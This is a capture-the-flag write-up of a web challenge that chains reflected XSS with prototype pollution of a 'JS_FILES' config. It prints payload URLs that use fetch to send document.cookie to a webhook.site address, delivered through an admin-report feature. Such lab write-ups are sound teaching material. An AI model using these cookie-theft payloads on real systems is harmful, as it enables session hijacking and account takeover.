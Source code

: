 This challenge doesn't contain source code. The description provides credentials `partner@rockyou.xyz:partn3r123` for login and mentions that we can submit non-security issues via `/report` for admin support.

The challenge provides two ports. On the first port, we see:

![Port 1](images/image.png)

On the second port:

![Port 2](images/image(1).png)

After logging in with the provided credentials, we see the following interface:

![Logged In Interface](images/image(2).png)

This appears to be a static site where the only functionality is "Sharing data," which generates a URL.

![Data Sharing](images/image(3).png)

Since we have an Issue tracker, the attack vector likely involves XSS.

When visiting the generated URL, it reflects what is placed after the `type` and `data` parameters:

![URL Reflection](images/image(4).png)


I couldn't find the injection point until I closed my session and experimented with the login form. I discovered that the `message` parameter value is reflected as a message on the page.

![Login Form Reflection](images/image(5).png)

However, when setting custom text, it didn't get displayed. Reviewing the source code, I found the following process:

1. JavaScript gets the message from URL parameters
2. Converts it into an object using `JSON.parse()`
3. Uses it as the second parameter for the `mergeObjects` function
4. Calls the `validateMessage()` function
5. If validated, the message gets displayed; otherwise, an error is shown

![Source Code Analysis](images/image(6).png)

The `mergeObjects()` function merges two objects - the `defaultConfig` and `userConfig` (read from the URL). It lacks proper validation, making it vulnerable to prototype pollution.

Looking at the configuration object, it contains two keys: `JS_FILES` and `ALLOWED_MESSAGES`. The code checks if `JS_FILES` are set, and if not, it calls `retrieveSettings`. Finally, it creates a script tag for every file in the `JS_FILES` object.

![Configuration Analysis](images/image(7).png)

The attack vector is straightforward:

1. Modify the `/partner/share` URL to execute XSS when called
2. Use prototype pollution to import our malicious URL
3. Send the final URL to the admin to obtain their cookie

The first URL for XSS:
`http://94.237.50.221:38149/partner/share?type=\"}fetch('URL?'.concat(document.cookie));//`

The second URL using prototype pollution:
`http://94.237.50.221:38149/login?message={"__proto__":{"JS_FILES":["/partner/share?type=\"}fetch('https://webhook.site/0235f878-611f-439e-a6c0-d686eccf62c3?'.concat(document.cookie))//"]}}`

Replace `URL` with your webhook URL to receive the request and obtain the admin cookie. Also, change the IP to `127.0.0.1` to match the regex validation.

![Regex error](images/image(8).png)

Submit this URL via the report functionality and wait for the admin to visit it.

![Cookie received](images/image(9).png)

After replacing our cookie with the admin's cookie and navigating to `/admin/users/`, we obtain the flag:

![Flag](images/image(10).png)